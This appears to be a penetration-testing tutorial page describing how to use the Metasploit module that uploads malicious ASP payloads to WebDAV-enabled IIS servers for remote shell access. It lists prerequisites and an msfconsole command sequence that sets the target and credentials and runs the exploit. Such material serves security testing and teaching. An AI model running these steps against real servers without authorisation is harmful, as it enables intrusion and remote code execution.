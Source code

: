 # 🔧 Metasploit - IIS WebDAV Upload ASP Exploitation

Exploit WebDAV-enabled IIS servers to upload and execute ASP payloads for remote code execution

**Location in Framework:** `web-pentesting/exploitation/metasploit/webdav-exploitation.md`

---

## 🎯 What is IIS WebDAV Upload ASP Exploit?

The `exploit/windows/iis/iis_webdav_upload_asp` module in Metasploit exploits Microsoft IIS servers with WebDAV enabled to upload malicious ASP files that execute server-side code. This module takes advantage of file upload capabilities in WebDAV to deliver payloads that can provide remote shell access.

**Key Capabilities:**
- **ASP Payload Upload:** Uploads malicious ASP files through WebDAV
- **Authentication Support:** Works with HTTP Basic authentication
- **Automatic Execution:** Uploaded payload executes automatically when accessed
- **Shell Access:** Provides Meterpreter or reverse shell access

This exploit is particularly effective against Windows servers running IIS with WebDAV enabled and misconfigured file upload permissions.

---

## 📦 Installation and Setup

### Prerequisites
- Metasploit Framework installed
- Network access to target IIS server with WebDAV
- Valid credentials if authentication is required
- Target server allows ASP file execution

### Metasploit Console Access
```bash
# Start Metasploit console
msfconsole

# Update module database
msfupdate
```

---

## 🔧 Basic Usage and Syntax

### Essential WebDAV Exploitation Workflow
```bash
# 1. Start Metasploit console
msfconsole -q

# 2. Select the WebDAV exploit module
use exploit/windows/iis/iis_webdav_upload_asp

# 3. Set target and credentials
set RHOSTS target_ip
set HttpUsername username
set HttpPassword password

# 4. Execute the exploit
exploit
```